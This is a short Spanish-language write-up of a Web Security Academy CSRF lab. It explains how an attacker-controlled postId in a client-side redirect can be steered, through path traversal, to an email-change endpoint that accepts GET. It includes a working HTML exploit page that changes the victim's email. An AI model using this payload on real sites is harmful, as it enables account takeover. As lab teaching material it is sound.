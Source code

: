 <figure><img src="../../.gitbook/assets/image (20) (1).png" alt=""><figcaption></figcaption></figure>

Cuando vamos a **/post/comment/confirmation**, se ejecuta este **JavaScript**:

Después de 3 segundos, redirige al usuario a **/post/\<postId>**.

**Pero el parámetro GET `postId` está completamente bajo el control del atacante.**

<figure><img src="../../.gitbook/assets/image (21) (1).png" alt=""><figcaption></figcaption></figure>

Como **/my-account/change-mail** acepta GET realizamos el siguiente script para enviar a la máquina.

```
<html>
    <head>
        <title>CSRF-8</title>
    </head>
    <body>
        <script type="text/javascript">
            // Before URL encoded:
            // ?postId=../my-account/change-email?email=test@test.com&submit=1
            document.location = 'https://0a7100b1033c27c8803d03e30043007a.web-security-academy.net/post/comment/confirmation?postId=../my-account/change-email%3Femail%3Dtest%40test.com%26submit%3D1';
        </script>
    </body>
</html>
```
